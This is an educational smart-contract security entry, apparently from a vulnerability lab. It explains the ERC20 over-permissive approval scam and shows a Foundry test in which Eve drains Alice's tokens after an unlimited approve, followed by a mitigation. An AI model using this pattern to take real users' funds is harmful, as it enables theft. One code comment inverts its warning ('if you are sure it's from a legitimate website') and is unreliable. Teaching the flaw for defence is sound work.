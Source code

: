 # Approval scam 
[ApproveScam.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ApproveScam.sol)   
**Name:** Over-Permissive Approve Scam

**Description:**  
This vulnerability is associated with the approval process in ERC20 tokens.
In this scenario, Alice approves Eve to transfer an unlimited (type(uint256).max) amount of tokensfrom Alice's account. Later, Eve exploits this permission and transfers 1000 tokens from Alice's account to hers.

Most current scams use approve or setApprovalForAll to defraud your transfer rights. Be especially careful with this part.

**Mitigation:**  
Users should only approve the amount of tokens necessary for the operation at hand.

**Contract:**  
```
contract ContractTest is Test {
    ERC20 ERC20Contract;
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    function testApproveScam() public {
        ERC20Contract = new ERC20();
        ERC20Contract.mint(1000);
        ERC20Contract.transfer(address(alice), 1000);

        vm.prank(alice);
        // Be Careful to grant unlimited amount to unknown website/address.
        // Do not perform approve, if you are sure it's from a legitimate website.
        // Alice granted approval permission to Eve.
        ERC20Contract.approve(address(eve), type(uint256).max);

        console.log(
            "Before exploiting, Balance of Eve:",
            ERC20Contract.balanceOf(eve)
        );
        console.log(
            "Due to Alice granted transfer permission to Eve, now Eve can move funds from Alice"
        );
        vm.prank(eve);
        // Now, Eve can move funds from Alice.
        ERC20Contract.transferFrom(address(alice), address(eve), 1000);
        console.log(
            "After exploiting, Balance of Eve:",
            ERC20Contract.balanceOf(eve)
        );
        console.log("Exploit completed");
    }

    receive() external payable {}
}
```
**How to Test:**

forge test --contracts src/test/**ApproveScam.sol** -vvvv  
```
// A function to test an approval exploit with ERC20 tokens.
function testApproveScam() public {
    // A new instance of ERC20 contract is created.
    ERC20Contract = new ERC20();

    // Mints 1000 new tokens to the contract's balance.
    ERC20Contract.mint(1000);

    // Transfers 1000 tokens to Alice.
    ERC20Contract.transfer(address(alice), 1000);

    // Alice becomes the active prankster.
    vm.prank(alice);

    // Alice approves Eve to spend any number of her tokens. This is a security risk.
    ERC20Contract.approve(address(eve), type(uint256).max);

    // Logs the balance of Eve before the exploit.
    console.log(
        "Before exploiting, Balance of Eve:",
        ERC20Contract.balanceOf(eve)
    );

    // Logs the warning.
    console.log(
        "Due to Alice granted transfer permission to Eve, now Eve can move funds from Alice"
    );

    // Eve becomes the active prankster.
    vm.prank(eve);

    // Eve transfers 1000 of Alice's tokens to herself.
    ERC20Contract.transferFrom(address(alice), address(eve), 1000);

    // Logs the balance of Eve after the exploit.
    console.log(
        "After exploiting, Balance of Eve:",
        ERC20Contract.balanceOf(eve)
    );

    // Logs "Exploit completed".
    console.log("Exploit completed");
}
```
Red box: transfered Alice’s funds due to Alice granted approval to Eve.  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F12373b11-e2f8-4102-a483-81694a89fc20%2FUntitled.png?table=block&id=3f9b98bb-6152-4571-a20a-a0c4e2304b76&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
